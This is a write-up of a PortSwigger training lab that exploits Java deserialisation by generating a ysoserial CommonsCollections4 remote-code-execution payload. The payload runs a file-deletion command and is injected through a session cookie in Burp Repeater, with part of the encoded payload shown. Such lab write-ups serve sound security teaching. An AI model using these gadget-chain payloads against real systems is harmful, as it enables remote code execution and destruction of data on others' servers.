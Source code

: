 # Exploiting Java deserialisation with Apache Commons

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons) uses a serialisation-based session mechanism and loads the Apache Commons Collections library. 

## Reproduction

1. Log in with `wiener:peter`. The session cookie is URL and base64 encoded and contains a serialised Java object (the first two bytes are `aced`). Send a request containing the session cookie to Burp Repeater.
2. Download the [Ysoserial](https://github.com/frohoff/ysoserial) tool, [if need be, make the on kali necessary changes to run it](../../techniques/id.md).
3. Execute the command to generate a Base64-encoded serialised object containing an RCE payload. The application uses Apache Commons Collections library, so use a `CommonsCollections` payload:

```text          
$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBh
cmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9u
cy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjM
AgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2hlL2NvbW1vbnMv
...
```

4. In Burp Repeater, replace the session cookie with the malicious one just created. Select the entire cookie and then URL-encode it.
5. Send the request to solve the lab.

## PoC

<iframe title="Exploiting Java deserialisation with Apache Commons" src="https://tube.spdns.org/videos/embed/34965ce1-bcea-4cba-8f97-d90b314d17f6" allowfullscreen="" sandbox="allow-same-origin allow-scripts allow-popups" width="560" height="315" frameborder="0"></iframe>

----

## Exploitability

Although attackers do not have source code access, they can still exploit this lab using pre-built gadget chains. An attacker will need to log in; use a third-party tool to generate a malicious serialised object containing a remote code execution payload; and pass this object into the website to delete the `morale.txt` file from Carlos's home directory. 
